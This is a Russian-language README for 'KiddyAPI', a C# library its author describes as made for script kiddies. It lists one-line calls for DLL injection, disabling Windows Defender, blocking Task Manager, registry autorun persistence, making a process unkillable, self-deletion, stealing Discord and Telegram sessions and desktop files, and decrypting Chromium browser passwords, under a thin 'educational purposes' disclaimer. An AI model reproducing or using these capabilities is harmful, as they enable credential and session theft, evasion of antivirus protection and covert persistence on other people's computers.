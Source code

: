 # KiddyAPI
KiddyAPI создана от "скрипт-кидди" для "скрипт-кидди". Библиотека, для изучения не очень правильных методов работы с Windows OS.

Тестировалась на Win7 x64. В ближайшем времени буду добавлять еще функций.
## Отказ от ответственности
Данная библиотека была написана в образовательных целях, автор не несет ответственности за использование в других целях.

Использовать только на своих компьютерах или с разрешения пользователя
## Нэймспэйсы и методы :
### Info:
Получаем активное окно пользователя по заголовку :
```C# 
CheckWindow.GetWindow("example");
```
Задаем новый пароль на Windows :
```C# 
SystemWork.ChangeWinPass("example");
```
Получаем внешний IP адрес :
```C# 
SystemWork.GetIP();
``` 
Получаем информацию о необходимых модулях :
```C# 
SystemWork.GetInfo(WinClass,ClassItem);
```
Получаем MAC-адресс : 
```C# 
SystemWork.GetMacAddress();
``` 
Получаем скриншот экрана :
```C# 
SystemWork.GetScreen("C:\\example");
```
### Injector:
Инжектим в процесс C++ DLL :
```C# 
Injector.Execute(pathToDLL, Process);
```
### Config:
Класс для дальнейших наработок, пока особо ничего в него не писал

Проверяем, под админом ли запущенны :
```C#  
if(Config.IsAdmin) { blablabla } 
```
### Protect:
Отключаем Windows Defender - `DisableDefender.FirstRun();` - Используется при первом запуске программы,
затем используем `DisableDefender.CheckDefender();` в бесконечном цикле, для того что бы проверять, не изменились ли параметры

Закрываем программу, если запущен какой то процесс :
```C# 
HideModule.CheckProcess("example");
```
Блокируем/Разблокируем Диспетчер задач :
```C#
 HideModule.EnableTaskManager(true/false);
```
Самоудаляемся : 
```C# 
HideModule.Suicide("pathToOwnExe");`
```
Добавляем в автозагрузку( через реестр ) :
```C# 
HideModule.SetAutorun("имя, которое будет отображаться в реестре", "pathToFile");
```
Делаем процесс невозможным убить в Диспетчере задач :
```C# 
ProcessProtect.Protect();
```
### Steal :

Тут мы копируем файлы с рабочего стола/сессию Дискорда/сессию Телеграмма

Общий вид такой :
```C# 
 Apps.Desktop/Telegram/Discord/.Steal(pathToCopy, true/false("перезапись старых файлов, если уже есть");
```

Расшифровываем пароли с ChromiumBased браузеров - 
```C# 
`Browsers.DecryptBrowsers(byte[] "пароль из бд",byte[]"энтропия");` 
```
Граббер добавлять не стал, так как это уже жирно. Декрипт происходит через WinAPI функцию.


